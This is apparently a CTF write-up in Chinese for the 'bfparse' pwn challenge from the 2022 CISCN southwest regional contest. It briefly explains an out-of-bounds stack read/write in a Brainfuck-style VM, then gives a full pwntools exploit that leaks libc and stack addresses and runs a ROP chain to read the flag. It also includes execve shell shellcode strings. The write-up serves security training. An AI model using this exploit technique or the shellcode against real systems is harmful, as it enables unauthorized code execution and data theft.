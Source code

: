 ```yaml
---
title: 2022 ciscn西南分区赛 pwn Writeup
date: 2022-07-11 18:54:59 +0800
categories:
  - ctf比赛
tags:
  - pwn
  - ctf
permalink: /posts/id=32/
pin: false
published:
---
```

## bfparse

![image-20220711181159179](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220711181159179.png)

题目是9.8的版本，calloc开辟了一段空间，典型的VMpwn，逆向一下输入

```
+ 3
, 6
- 4
.5
< 2
> 1
[ 7
] 8
```



![image-20220711181231466](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220711181231466.png)

漏洞点在于执行命令时存在对栈的读入和栈的泄露操作，且下标可控，通过计算偏移在返回地址处写入orw

![image-20220711181319999](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220711181319999.png)

```python
# _*_ coding:utf-8 _*_
from pwn import *
# context.log_level='debug'

p = process("./pwn")
p = remote('192.168.0.99','58011')
# p = remote("node4.buuoj.cn","28559")
elf = ELF("./pwn")
# libc = elf.libc
libc = ELF('./libc.so.6')

def dbg():
    gdb.attach(p)
    pause()

#-----------------------------------------------------------------------------------------
s       = lambda data               :p.send(str(data))
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
uu32    = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
uu64    = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
lg      = lambda s                  :p.success('%s -> 0x%x' % (s, eval(s)))

sh_x86_18="\x6a\x0b\x58\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x86_20="\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x64_21="\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\xb0\x3b\x0f\x05"
#https://www.exploit-db.com/shellcodes
#-----------------------------------------------------------------------------------------

buf = 0x4040
idx = 0x8440
Order = 0x8040
#-------------------------------------
pay = '>'*0x000238+'.>'*8+'>'*8+'.>'*8+'<'*0x38+',>'*0x90
s(pay)
libc_base = uu64()-243-libc.sym['__libc_start_main']
lg('libc_base')

stack = uu64()
lg('stack')

pop_rdi = 0x0000000000023b6a+libc_base
pop_rsi = 0x000000000002601f+libc_base
pop_rdx = 0x0000000000142c92+libc_base
syscall = 0x00000000000630a9+libc_base
pop_rax = 0x0000000000036174+libc_base
bin_sh = libc_base+libc.search("/bin/sh\x00").next()
Open = libc_base+libc.sym['open']
Read = libc_base+libc.sym['read']
Write = libc_base+libc.sym['write']
environ = libc_base+libc.sym["environ"]
flag_addr = stack-0x88
lg('pop_rdi')
#------------------------------------------------------
pay = p64(pop_rdi)+p64(flag_addr)+p64(pop_rsi)+p64(0)+p64(pop_rdx)+p64(0)+p64(Open)
pay += p64(pop_rdi)+p64(3)+p64(pop_rsi)+p64(environ)+p64(pop_rdx)+p64(0x60)+p64(Read)
pay += p64(pop_rdi)+p64(1)+p64(Write)+'flag\x00\x00\x00\x00'
s(pay)
# 0x7f23903a8000
p.interactive()
```

